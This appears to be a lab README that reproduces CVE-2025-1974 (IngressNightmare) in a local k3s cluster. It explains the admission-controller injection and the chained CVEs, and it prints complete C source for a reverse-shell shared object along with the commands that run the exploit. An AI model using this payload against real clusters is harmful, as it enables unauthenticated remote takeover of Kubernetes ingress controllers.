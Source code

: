 # IngressNightmare: Kubernetes Ingress Unauthenticated Remote Code Execution Vulnerability (CVE-2025-1974)

The **IngressNightmare** vulnerability stems from a critical flaw in the **Ingress-NGINX Admission Controller**—a core Kubernetes security mechanism responsible for validating incoming Ingress resources before they are accepted by the cluster. This controller is **exposed over the network without requiring authentication**, allowing attackers to craft malicious `AdmissionReview` requests and inject unauthorized configurations into Ingress resources.

**Note**: Achieving full Remote Code Execution (RCE) requires chaining CVE-2025-1974 with one of several other vulnerabilities. Below are some known exploit chains:

CVE-2025-1974 + CVE-2025-24514  RCE via `auth-url` annotation injection
CVE-2025-1974 + CVE-2025-1097   RCE via `auth-tls-match-cn` annotation
CVE-2025-1974 + CVE-2025-1098   RCE via image UID abuse

## Vulnerability Mechanics

An attacker can forge an `AdmissionReview` request to inject arbitrary NGINX directives into the Ingress resource. These directives are validated using the `nginx -t` command. [^1]Through careful manipulation, an attacker can inject an `ssl_engine` directive, which forces NGINX to load a dynamic shared object (DSO)—leading to arbitrary code execution.

More technical breakdowns can be found in the following resources:

- [IngressNightmare: CVE-2025-1974 - Critical Unauthenticated RCE](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities)[^2]
- [Kubernetes Blog: CVE-2025-1974 Overview](https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/)[^3]

## Environment Setup

To simulate the vulnerability, a K3s-based Kubernetes environment is used for simplicity.

```bash
docker compose up -d
```

After the environment starts, execute the initialization script inside the k3s container:

```bash
$ docker ps -a | grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server" ...

$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
...
root@exploit-pod:/# 
```

Once initialized, you'll be inside a container named `exploit-pod`.

## Exploitation

We first compile a shared object (`.so`) payload matching the container’s architecture. Below is a sample source code for a reverse shell:

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    char *server_ip = "xxxx";
    uint32_t server_port = 7788;
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
    system("touch /tmp/hacked");
    if (connect(sock, (struct sockaddr *)&attacker_addr, sizeof(attacker_addr)) != 0)
        exit(0);
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
}
```

Replace `server_ip` with your actual reverse shell listener. You can compile the binary using the environment provided by [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main).[^4]

Once compiled, place the resulting `shell.so` into the `./exploit` directory of the container.

Inside `exploit-pod`, navigate to the exploit directory and launch the exploit script. The script is sourced from the [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main) [^5]GitHub repository:

```bash
cd /exploit
python3 exploit.py
```

You should observe the creation of the `/tmp/hacked` file inside the ingress-nginx container, confirming successful exploitation.

![](1.jpg)

## References

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main
